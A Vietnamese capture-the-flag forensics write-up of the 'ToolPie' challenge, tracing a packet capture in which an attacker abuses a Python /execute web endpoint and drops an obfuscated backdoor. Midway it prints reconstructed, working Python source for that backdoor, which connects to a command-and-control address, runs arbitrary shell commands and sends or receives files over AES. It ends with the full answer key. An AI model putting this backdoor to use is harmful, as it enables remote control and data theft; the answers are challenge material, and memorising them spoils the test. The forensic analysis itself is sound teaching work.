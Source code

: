 # _TOOLPIE_ _(FORENSICS)_
![image](https://github.com/user-attachments/assets/74acfcd7-04ac-4e90-a6f0-1e72c11cbf41)

Bài cho 1 file pcapng, nhiệm vụ là phân tích và trả lời 6 câu hỏi

![image](https://github.com/user-attachments/assets/22193fd6-4267-4ac5-86b1-ae58bff33835)

Mới đầu vào, mình follow tcp.stream, vì chỉ có 6 luồng nên mình sẽ ngồi phân tích hết

Đầu tiên là stream 0, thấy được 1 GET request từ IP 194.59.6.66 đến 1 HOST: 13.61.177.227, với yêu cả trả về trang chủ của 1 trang web

![image](https://github.com/user-attachments/assets/d6799aef-c939-410e-9124-d48929177495)

Trong phần nav của trang web có 2 liên kết là idex.html và script.html

Kết hợp với đó là mình export objects HTML và save all

![image](https://github.com/user-attachments/assets/495c4f78-8718-4d41-9fbf-11c69d0ca574)

Ta thử truy cập vào script.html xem sao

![image](https://github.com/user-attachments/assets/f7db701e-b46c-4f79-afe4-49318ddfef6b)

Đây giống như là một trang web cho người dùng thực hiện nhập mã Python rồi nhấn Execute để thực thi

Chưa có gì đặc biệt lắm, nên cùng đi đến với stream thứ 1

Tiếp tục là GET request từ 194.59.6.66 đối với server và ở gần cuối có 1 lệnh GET request tới /script.html

![image](https://github.com/user-attachments/assets/9c25a9cc-8506-4dd7-8e63-1c55541000c2)

Khi ng dùng nhập mã và thực thi trên trang này thì nó sẽ gửi 1 yêu cầu POST/execute đến server

Và ngay sau đó là stream 3, vẫn tiếp tục là IP đó đã nhập mã và thực thi, nhìn script Python này uy tín vcl :v

![image](https://github.com/user-attachments/assets/49ab7110-ed45-4025-a8db-7efbd7d0aca3)

Sau đó, stream 4 thì server đã thực hiện gửi ec2amaz-bktvi3e\administrator và có những phản hồi từ 1 IP __khác__ là 13.61.7.128. Đến đây mình sẽ có 1 số nhận định sau

- Thứ nhất, IP chịu trách nhiệm cho việc xâm phạm web của câu hỏi 1 đề cập chắc chắn là 194.59.6.66

```
1. What is the IP address responsible for compromising the website?
Answer: 194.59.6.66
```

- Thứ hai, Attacker có thể đã gửi payload Python độc hại đến /execute, khiến server chạy mã độc. Nên /execute chính là enpoint giúp trả lời cho câu 2
```
2. What is the name of the endpoint exploited by the attacker?
Answer: execute
```

- Thứ ba, IP 13.61.7.128 rất có thể là máy chủ C2 (Command & Control), nơi attacker có thể điều khiển hệ thống đã bị khai thác và ở câu 4 cũng có hỏi liên quan đến C2 nhưng mình nhập không đúng do thiếu port ( mình sẽ phân tích tiếp đoạn này ở bên dưới)

Tiếp theo, mình sẽ đi phân tích ở đoạn mã Python mà attacker đã gửi đi, đoạn script thực thi bị nén marshal, và bz2.

Giải nén xong, mình đã đưa về được file .pyc nhưng kh thể đưa về mã nguồn .py được, sau đó AI có hỗ trợ mình có thể đưa về mã assembly để phân tích

![image](https://github.com/user-attachments/assets/3280d011-54ff-4151-ba77-e9ef660791e0)

Ngồi đọc 1 lúc, thì mình thấy được đáp án cho câu 3

![image](https://github.com/user-attachments/assets/4dfab106-3dcf-4b16-ba7f-606e63da6453)

```
3. What is the name of the obfuscation tool used by the attacker?
Answer: Py-Fuscate
```

Vì mã assembly quá dài, và mình méo hiểu gì nên nhờ AI đưa về .py theo đúng logic

```python
import os, socket, threading, time, random, string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

user = os.popen('whoami').read()
BUFFER_SIZE = 4096
SEPARATOR = '<SEPARATOR>'

def enc_mes(mes, key):
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    return cypher.encrypt(pad(mes.encode() if isinstance(mes, str) else mes, 16))

def dec_mes(mes, key):
    if mes == b'': return mes
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    return unpad(cypher.decrypt(mes), 16)

def receive_file(k):
    client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client2.connect(('13.61.7.218', 54163))
    client2.send(k.encode())
    received = dec_mes(client2.recv(BUFFER_SIZE), k).decode().split(SEPARATOR)
    filename, filesize = received[0], int(received[1])
    client2.send(enc_mes('ok2', k))
    msg = b''
    while len(msg) < filesize:
        msg += client2.recv(BUFFER_SIZE)
    with open(filename, 'wb') as f:
        f.write(dec_mes(msg, k))
    client2.close()

def receive(client, k):
    while True:
        try:
            msg = dec_mes(client.recv(1024), k)
            message = msg.decode()
            if message == 'check':
                client.send(enc_mes('check-ok', k))
            elif message == 'send_file':
                threading.Thread(target=receive_file, args=(k,)).start()
            elif message == 'get_file':
                client.send(enc_mes('ok', k))
                path = dec_mes(client.recv(1024), k).decode()
                with open(path, 'rb') as f:
                    data = enc_mes(f.read(), k)
                client.send(str(len(data)).encode())
                client.recv(1024)
                client.sendall(data)
            elif message:
                answer = os.popen(message).read()
                enc_answer = enc_mes(answer, k)
                client.send(str(len(enc_answer)).encode())
                if client.recv(1024).decode() == 'ok':
                    client.sendall(enc_answer)
        except:
            client.close()
            client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client.connect(('13.61.7.218', 55155))
            k = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(16))
            client.send(f"{user}{SEPARATOR}{k}".encode())
            time.sleep(60)

if __name__ == '__main__':
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect(('13.61.7.218', 55155))
    k = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(16))
    client.send(f"{user}{SEPARATOR}{k}".encode())
    threading.Thread(target=receive, args=(client, k)).start()
```

- Chương trình này là một client kết nối tới một server (có địa chỉ IP và cổng cố định: 13.61.7.218:55155), kết hợp với những phân tích trc đó thì đã có đáp án cho câu 4
```
4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
Answer: 13.61.7.218:55155
```

Sau khi kết nối tới C2 server xong thì thực hiện:
- Lấy thông tin người dùng thông qua whoami

- Thông tin này được gửi tới server cùng với khóa ngẫu nhiên (user + SEPARATOR + k), k chính là khóa để thực hiện mã hóa AES-CBC như trong script trên. Từ đây có câu trả lời cho câu 5
![image](https://github.com/user-attachments/assets/d5817d64-1180-4afc-bb02-ebb306f4f6b4)

```
5. What encryption key did the attacker use to secure the data?
Answer: 5UUfizsRsP7oOCAq
```

- Dùng AES-CBC để mã hóa dữ liệu gửi đi và giải mã dữ liệu gửi về

Mình sẽ dùng key đó để decrypt dữ liệu gửi đi tại đây là sẽ có đáp án cho câu 6

![giaima](https://github.com/user-attachments/assets/d3d3debb-8be0-49c9-89bc-7710f9dfd44b)

Lấy dữ liệu ở dạng Raw, rồi lưu vào 1 file riêng

Script
```python
from Crypto.Cipher import AES

def decrypt_file(input_file: str, output_file: str, key: str):
    # Đọc dữ liệu đã mã hóa từ file
    with open(input_file, "rb") as f:
        ciphertext = f.read()

    # Sử dụng key.encode() làm IV (giống như quá trình mã hóa)
    iv = key.encode()

    # Tạo đối tượng giải mã AES-CBC
    cipher = AES.new(key.encode(), AES.MODE_CBC, iv)

    # Giải mã dữ liệu
    decrypted_data = cipher.decrypt(ciphertext)

    # Loại bỏ padding (PKCS7)
    pad_len = decrypted_data[-1]
    decrypted_data = decrypted_data[:-pad_len]

    # Ghi kết quả giải mã ra file
    with open(output_file, "wb") as f:
        f.write(decrypted_data)

    print(f"Giải mã thành công! Đã lưu vào {output_file}")

input_file = "anh"   # File chứa dữ liệu đã mã hóa
output_file = "DONE"  # File để lưu dữ liệu sau khi giải mã
key = "5UUfizsRsP7oOCAq"        # Key giống lúc mã hóa

decrypt_file(input_file, output_file, key)
```

![image](https://github.com/user-attachments/assets/054251ed-0b74-4cc6-a8af-d6aa74594979)

Check MD5

![image](https://github.com/user-attachments/assets/fe5dd1f3-65a8-47cf-b9af-8f6553ea7323)

```
6, What is the MD5 hash of the file exfiltrated by the attacker?
Answer: 8fde053c8e79cf7e03599d559f90b321
```

Tổng hợp đáp án

```
1. What is the IP address responsible for compromising the website?
Answer: 194.59.6.66

2. What is the name of the endpoint exploited by the attacker?
Answer: execute

3. What is the name of the obfuscation tool used by the attacker?
Answer: Py-fuscate

4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
Answer: 13.61.7.218:55155

5. What encryption key did the attacker use to secure the data?
Answer: 5UUfizsRsP7oOCAq

6, What is the MD5 hash of the file exfiltrated by the attacker?
Answer: 8fde053c8e79cf7e03599d559f90b321
```




